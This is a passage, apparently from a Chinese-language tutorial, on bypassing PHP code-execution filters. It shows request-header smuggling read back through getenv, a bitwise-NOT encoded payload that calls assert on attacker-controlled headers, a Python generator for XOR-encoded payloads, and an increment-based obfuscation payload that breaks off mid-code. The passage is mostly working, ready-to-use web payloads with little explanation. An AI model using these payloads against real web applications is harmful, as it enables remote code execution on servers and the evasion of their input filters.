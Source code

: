 `getenv` 能够获取 `phpinfo` 中 `ApacheEnvironment` 和 `Environment` 中的值。

请求头中的变量会以 `HTTP_变量名` 的形式存在 `Apache Environment` 中。

因此我们在请求头中带上 `E: system` ，我们可以通过 `getenv('HTTP_E')` 来获取其值 `system`

![](https://p5.ssl.qhimg.com/dm/1024_311_/t0124ed7b865e286bb5.png)

![](https://p5.ssl.qhimg.com/t010d431032145659ef.png)

#### 利用字符取反

```php
<?php
$str = 'phpinfo';
$str = str_split($str);
$flag='';
foreach ($str as  $value) {
    $flag.=~$value;
}
echo "(~".urlencode($flag).")();";
```



```php
(~%9E%8C%8C%9A%8D%8B)((~%91%9A%87%8B)((~%98%9A%8B%9E%93%93%97%9A%9E%9B%9A%8D%8C)()));
//("assert")(("next")(("getallheaders")()));
```

#### 利用字符异或

```python
payload="phpinfo"
allowed="BCHIJKLMNQRTUVWXYZ\\^bchijklmnqrtuvwxyz}~!#%*/:;<=>?@"# no ()
reth=""
rett=""
for c in payload:
    flag=False
    for i in allowed:
        if flag == False:
            for j in allowed:
                if ord(i)^ord(j)==ord(c):
                    #print("i=%s j=%s c=%s"%(i,j,c))
                    reth=reth+"%"+str(hex(ord(i)))[2:]
                    rett=rett+"%"+str(hex(ord(j)))[2:]
                    flag=True
                    break
ret=reth+"^"+rett

print ret
```

#### 利用字符自增

```php
<?=[$_=[],
$_=@"$_",
$_=$_['!'=='@'],
$____='_',
$__=$_,
$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,
$____.=$__,
$__=$_,
$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,$__++,
$____.=$__,
$__=$_,
```